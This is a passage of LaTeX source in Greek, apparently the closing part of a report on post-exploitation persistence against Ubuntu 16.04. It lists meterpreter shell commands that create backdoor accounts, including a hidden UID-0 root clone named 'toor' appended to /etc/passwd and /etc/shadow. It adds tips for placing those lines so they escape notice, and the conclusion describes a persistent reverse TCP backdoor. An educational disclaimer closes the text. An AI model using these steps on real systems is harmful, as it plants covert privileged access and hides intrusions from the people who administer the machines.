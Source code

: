 \documentclass[12pt]{report}
\begin{document}
\paragraph{Δημιουργία \textlatin{superuser} ή Απλου Χρήστη}
Με αυτή τη διαδικασία δημιουργούμε διάφορους χρήστες ανάλογα με τις επιθυμίες μας, οι οποίοι μπορούν να έχουν πρόσβαση μέσω \textlatin{ssh, rlogin} στο μηχάνημα στόχο. Στο παράδειγμα δημιουργούμε τρεις χρήστες: έναν απλό, έναν \textlatin{sudoer} και ένα αντίγραφο του \textlatin {root (toor)}. Ο χρήστης \textlatin{toor} συχνά δεν εγείρει υποψίες γιατί υπάρχει ενσωματωμένος σε πολλά \textlatin{BSD-Like} συστήματα. Ο απλός χρήστης γίνεται \textlatin{root} εάν τρέξει το \textlatin{suid} εκτελέσιμο από την προηγούμενη παράγραφο.
\begin{scriptsize}
\begin{verbatim}
meterpreter > shell
sh# useradd -m -U -G sudo user1
sh# passwd user1
sh# useradd -m -U user2
sh# passwd user2
sh# echo 'toor:*:17153:0:99999:7:::' >> /etc/shadow
sh# echo 'toor:x:0:0:toor:/toor:/bin/sh' >> /etc/passwd
sh# passwd toor
\end{verbatim}
\end{scriptsize}
Μπορούμε να αλλάξουμε τη σειρά στις γραμμές των \textlatin{/etc/shadow, /etc/passwd}, ώστε αυτές που αφορούν στο χρήστη \textlatin{toor} να είναι ακριβώς κάτω από του \textlatin{root}, ώστε να μην εγείρουμε υποψίες.

\chapter{Συμπεράσματα}
Στο παρόν, περιγράφηκε η διαδικασία αρχικής πρόσβασης και διατήρησης αυτής, μέσω μιας μόνιμης \textlatin{meterpreter reverse tcp backdoor} σε μια βασική εγκατάσταση ΛΣ \textlatin{Ubuntu Linux 16.04}. Δόθηκαν αναλυτικά οι εντολές και τα βήματα για την επίτευξη του παραπάνω σκοπού. Τονίζεται οτι όλες οι παραπάνω πληροφορίες παρέχονται μόνο για εκπαιδευτικούς σκοπούς και σε καμία περίπτωση δεν έχουν σκοπό να προάγουν έκνομες ενέργειες.
\end{document}

